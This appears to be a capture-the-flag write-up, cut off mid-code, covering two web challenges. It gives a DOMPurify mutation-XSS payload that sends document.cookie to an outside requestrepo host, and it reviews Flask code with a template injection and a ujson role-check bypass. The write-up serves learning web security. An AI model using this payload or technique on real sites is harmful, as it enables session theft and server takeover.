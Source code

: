 # X Éc Éc
#xss #dompurify 
### Overview
Notes app, that sanitizes input with `domPurify` in the **server**.
### Exploitation
```
<svg><a><foreignobject><a><table><a></table><style><!--</style></svg><a id="-><img src onerror='fetch(`//estpahsh.requestrepo.com?c=${document.cookie}`)'>">.
```
---------------------------------------
# Another One
#json #ssti 
### Road to flag
The flag has a random name in `/app` -> RCE
### Code review
In the admin route there's an SSTI:
```python
@app.route('/render', methods=['POST'])
def dynamic_template():
    token = request.cookies.get('jwt_token')
    if token:
        try:
            decoded = jwt.decode(token, app.config['SECRET_KEY'], algorithms=['HS256'])
            role = decoded.get('role')

            if role != "admin":
                return jsonify(message="Admin only"), 403

            data = request.get_json()
            template = data.get("template")
            rendered_template = render_template_string(template)
            
            return jsonify(message="Done")

        except jwt.ExpiredSignatureError:
            return jsonify(message="Token has expired."), 401
        except jwt.InvalidTokenError:
            return jsonify(message="Invalid JWT."), 401
        except Exception as e:
            return jsonify(message=str(e)), 500
    else:
        return jsonify(message="Where is your token?"), 401
```
But how to be admin?
The app uses `ujson`, not the standard json lib.
Registration route:
```python
@app.route('/register', methods=['POST'])
def register():
    json_data = request.data
    if "admin" in json_data:
        return jsonify(message="Blocked!")
    data = ujson.loads(json_data)
    username = data.get('username')
    password = data.get('password')
    role = data.get('role')
    
    if role !="admin" and role != "user":
```